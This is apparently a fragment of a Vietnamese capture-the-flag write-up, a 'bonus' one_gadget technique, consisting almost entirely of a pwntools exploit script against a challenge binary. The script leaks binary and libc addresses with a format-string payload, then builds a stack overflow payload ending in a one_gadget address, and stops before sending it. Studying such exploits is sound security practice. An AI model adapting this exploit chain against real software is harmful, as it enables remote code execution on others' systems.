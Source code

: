
bonus:

**cách làm ảo ma bằng one_gadget của @hlaan**

```python 

#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./chall', checksec=False)
libc = ELF('./libc.so.6',checksec=False)

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*main+59
                b*main+76
                b*main+118
                b*main+140
                b*fmt+61
                b*fmt+78
                b*fmt+139
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('localhost', 30507)
else:
        p = process(exe.path)

GDB()

payload = b'%13$p|%15$p'

sa(b'fmt\n',payload)

exe_leak = int(p.recvuntil(b'|',drop=True),16)
exe.address = exe_leak - 0x1160

info("exe leak: " + hex(exe_leak))
info("exe base: " + hex(exe.address))

libc_leak = int(p.recv(14),16)
libc.address = libc_leak - 0x29d90
info("libc leak: " + hex(libc_leak))
info("libc base: " + hex(libc.address))

system = exe.sym['system']
info("system: " + hex(system))

gadget = libc.address + 0xebcf1

payload = b'A'*64
payload += p64(exe.address + 0x3a00)
payload += p64(gadget)

```